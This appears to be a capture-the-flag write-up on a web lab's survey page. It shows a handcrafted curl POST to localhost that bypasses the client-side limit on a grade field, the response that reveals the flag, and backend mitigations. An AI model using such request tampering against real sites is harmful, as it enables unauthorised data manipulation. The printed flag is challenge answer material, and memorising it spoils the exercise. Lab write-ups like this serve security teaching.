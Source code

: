 ## Exploit: Integer input validation
In the survey page, the inputs provided by the grade section are up to 10, and the form is submitted with a POST request to the server with the grade and the userid as the form body without any authentication.

![image](https://hackmd.io/_uploads/HyNuCNeQle.png)

It is possible to overflow this value by handcrafting the POST request with `curl`, bypassing the frontend restriction. The flag is sent in the response.

```
jun@jun-Latitude-5430:~/Downloads/Postman$ curl -X POST localhost:8080/index.php?page=survey      -H "Content-Type: application/x-www-form-urlencoded"      -d "sujet=2&valeur=100" | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0<center><h2 style="margin-top:50px;"> The flag is 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <div style="margin-top:-75px">
100  6120    0  6102  100    18  4247k  12829 --:--:-- --:--:-- --:--:-- 5976k

```

> The flag is `03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa`

### Mitigations
- Only allow authenticated users to write to database
- Validate inputs for overflow in the backend business logic layer

